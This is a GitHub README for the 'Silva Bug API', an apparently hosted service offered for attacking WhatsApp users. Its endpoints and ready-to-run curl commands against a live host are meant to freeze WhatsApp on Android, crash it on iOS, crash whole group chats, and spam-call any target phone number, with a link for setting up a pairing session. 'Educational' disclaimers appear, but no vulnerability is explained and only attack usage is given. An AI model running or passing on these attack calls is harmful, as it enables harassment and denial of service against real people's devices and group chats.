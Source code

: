 
# 🚀 Silva Bug API

The **Silva Bug API** is a powerful endpoint API developed by **[Silva Tech Inc](https://github.com/SilvaTechB)** to exploit vulnerabilities in WhatsApp. This API provides endpoints that can:

- 🛑 Delay WhatsApp on Android devices.
- 🌋 Spam Call Users on WhatsApp.
- 🍎 Crash WhatsApp on iOS devices.
- 💥 Crash entire WhatsApp group chats.

> **⚠️ Warning:** This API is for educational purposes only. Misuse of this tool may result in serious legal consequences. Use responsibly.

---

## 🌟 Features

- 🔥 **Delay Android Devices**  
- 🕸️ **Spam Call Users**
- 🍏 **Crash iOS Devices**  
- 💬 **Crash Group Chats**

---

## 📌 Endpoints

### 1 **Delay Android WhatsApp**  
**Description:** Delay and crashes WhatsApp on Android devices.  
**Endpoint:**  
```bash
GET ${api_link}/freezeDroid?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 2 **Spam Call Users**  
**Description:** Spam call users on WhatsApp.  
**Endpoint:**  
```bash
GET ${api_link}/callSpam?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 3 **Crash iOS WhatsApp**  
**Description:** Crashes WhatsApp on iOS devices.  
**Endpoint:**  
```bash
GET ${api_link}/iosCrash?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 4 **Crash Group Chats**  
**Description:** Crashes an entire WhatsApp group chat.  
**Endpoint:**  
```bash
GET ${api_link}/crashGroup?target=${grouplink}
```  
**Parameters:**  
| Key        | Type   | Description                              |
|------------|--------|------------------------------------------|
| `target`   | String | The WhatsApp group chat link to target.  |

---

# Setup For Deployment 👇

## 🎯 Generate Pair Code For Session
[![Silva](https://repl.it/badge/github/quiec/whatsasena)](https://creds.silvatechinc.my.id/pair)

## ⚠️ Disclaimer

**Note:**  
This API is designed strictly for educational and research purposes to highlight vulnerabilities in applications. Any unauthorized use to harm individuals, groups, or organizations is strictly prohibited. Ensure you comply with all applicable laws before using this API.

---

## 💻 Example Usage

```bash
# Delay Android WhatsApp
curl -X GET "https://silva-bug-api.onrender.com/freezeDroid?target=1234567890"

# Spam Call User
curl -X GET "https://silva-bug-api.onrender.com/callSpam?target=1234567890"

# Crash iOS WhatsApp
curl -X GET "https://silva-bug-api.onrender.com/iosCrash?target=1234567890"

# Crash Group Chat
curl -X GET "https://silva-bug-api.onrender.com/crashGroup?target=https://chat.whatsapp.com/exampleGroupLink"
```

---

### 👨‍💻 Developed By: **[Silva EduTech Nexus](https://github.com/SilvaTechB)**

Enjoy bugging responsibly! ✨
